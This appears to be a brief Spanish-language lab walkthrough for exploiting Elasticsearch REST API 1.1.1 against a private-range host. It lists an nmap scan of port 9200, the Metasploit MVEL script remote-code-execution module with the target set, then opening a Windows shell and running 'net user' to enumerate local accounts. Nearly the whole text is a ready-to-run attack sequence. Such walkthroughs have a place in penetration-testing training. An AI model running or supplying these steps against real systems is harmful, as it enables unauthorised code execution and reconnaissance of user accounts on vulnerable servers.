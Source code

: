 # Explotación de servicio Elasticsearch REST API 1.1.1 
Escanear la IP objetivo para conocer los puertos abiertos para ejecutar servicios

nmap -p 9200 -sV 172.16.3.122 

Procedemos a explotar la vulnerabilidad con Metasploit de la siguiente forma:

use exploit/multi/elasticsearch/script_mvel_rce
set RHOSTS 172.16.3.122
exploit

Al explotar la vulnerabilidad podremos verificar lo siguiente:
Luego podremos solicitar una consola de comandos de Windows con el comando “shell” y 
posteriormente listar los usuarios locales de la siguiente forma: "net user"